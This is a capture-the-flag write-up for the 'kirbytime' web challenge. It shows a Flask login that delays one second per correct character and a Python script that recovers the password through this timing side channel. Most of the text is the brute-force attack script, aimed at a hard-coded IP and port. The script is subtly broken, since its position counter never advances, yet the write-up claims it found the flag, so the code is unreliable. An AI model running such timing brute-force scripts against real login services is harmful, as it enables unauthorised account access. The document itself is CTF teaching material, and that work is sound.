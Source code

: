 # web/kirbytime

**218 solves / 125 points**

*Auther: Stephanie*

Welcome to Kirby's Website.

*Given: kirbytime.zip*

___

We're given the source-code of a flask application.

The website prompts us to enter a 7-letter password that is probably the flag itself.

The code tells us that whenever we guess a right letter the server would wait 1 second:

```py
    if len(password) != 7:
        return render_template('login.html', message="you need 7 chars")
    for i in range(len(password)):
        if password[i] != real[i]:
            message = "incorrect"
            return render_template('login.html', message=message)
        else:
            time.sleep(1)
    if password == real:
        message = "yayy! hi kirby"
```

We could use the time the response takes to guess every letter sequentially by measuring the time a wrong password gets a reply and a password with the first letter correct, their difference should be 1 second.

Each letter we get right we will wait more and more time and the next letter will add 1 second to the right guess timer.

```py
import requests
import string
import time

# The URL of the login endpoint
url = 'http://34.31.154.223:51749/'

# The characters to use in the brute force attack
charset = string.ascii_letters + string.digits

# Function to test a password and get the response
def test_password(password):
    try:
        start = time.time()
        response = requests.post(url, data={'password': password})
        elapsed_time = time.time() - start
        return response.text, elapsed_time
    except requests.RequestException as e:
        print(f"Request failed: {e}")
        return "", 0

# Function to perform the brute force attack
def brute_force():
    # kBySlaY
    tmp = ["a"] * 7
    sleep_time = 1
    i = 0
    while i <= 6:
        print(f"Brute forcing position {i + 1}")
        for char in charset:
            tmp[i] = char
            curr = ''.join(tmp)
            print(f"Testing password: {curr}")

            response, timer = test_password(curr)
            print(f"Time: {timer}")

            if "yayy! hi kirby" in response:
                print(f"Password found: {curr}")
                return curr

            # If the response time exceeds the threshold, consider the character correct
            if timer > sleep_time:  # Adjust this threshold based on server behavior
                print(f"Character at position {i + 1} confirmed: {char}")
                sleep_time += 1
                break

        tmp[i] = char  # Update the confirmed character for the current position
        print(f"Character at position {i + 1} confirmed: {tmp[i]}, tmp = {''.join(tmp)}")
    
    print('Password not found')
    return None

if __name__ == '__main__':
    found_password = brute_force()
    if found_password:
        print(f'Cracked password: {found_password}')
    else:
        print('Failed to crack the password')
```

After a few minutes we get the password:

> LITCTF{kBySlaY}


